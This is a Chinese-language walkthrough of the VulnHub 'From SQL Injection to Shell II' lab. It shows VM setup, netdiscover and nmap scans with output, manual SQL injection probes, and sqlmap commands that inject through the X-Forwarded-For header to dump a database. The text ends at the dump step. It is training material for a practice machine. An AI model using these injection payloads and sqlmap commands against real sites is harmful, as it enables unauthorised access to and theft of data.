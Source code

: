 ## 下载

下载官网镜像

https://www.vulnhub.com/entry/pentester-lab-from-sql-injection-to-shell-ii,69/

## 安装

宿主机是windows

虚拟机使用VMware，搭载一个kali linux，同时搭载目标ISO

注意这次实验，kail linux 与 目标ISO 的网络都要配置成“仅主机模式”保证他们能互相访问。

## 扫描

Kali linux 

### 使用netdiscover

> sudo netdiscover 

进行内网扫描，目的是找到目标端口。

```
 Currently scanning: 172.16.58.0/16   |   Screen View: Unique Hosts            
                                                                               
 7 Captured ARP Req/Rep packets, from 3 hosts.   Total size: 420               
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.129.1   00:50:56:c0:00:01      3     180  VMware, Inc.                
 192.168.129.129 00:0c:29:a2:f3:76      2     120  VMware, Inc.                
 192.168.129.254 00:50:56:e6:e4:28      2     120  VMware, Inc.  
```
我的地址是 192.168.129.129

### 使用nmap

> nmap -A -v 192.168.129.129

对这个IP进行端口扫描，以及寻找端口的信息

```
80/tcp open  http    nginx 0.7.67
|_http-favicon: Unknown favicon MD5: 967B30E5E95445E29B882CC82774AC96
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: nginx/0.7.67
|_http-title: My Photoblog - latest picture

```

只有一个80端口开着nginx的web服务

## 注入测试

既然标题已经说过是sql注入相关的，那么先简单的手工测试一下

```
?id=2-1
?id=1 and 2=1
?id=1'"())()
?id=1' and '1'='1
```

发现无论如何显示的页面不会变化，似乎id在后台进行了int的强制转换

那么估计是在cookie或者httpheader进行注入

？测试一下

使用SqlMap进行注入
```
sqlmap -u http://192.168.129.129/cat.php?id=1  --headers="X-Forwarded-For:*" –dbs –batch
```

dump数据

```
sqlmap -u http://192.168.129.129/cat.php?id=1  --headers="X-Forwarded-For:*" –D photoblog --dump-all –batch
```

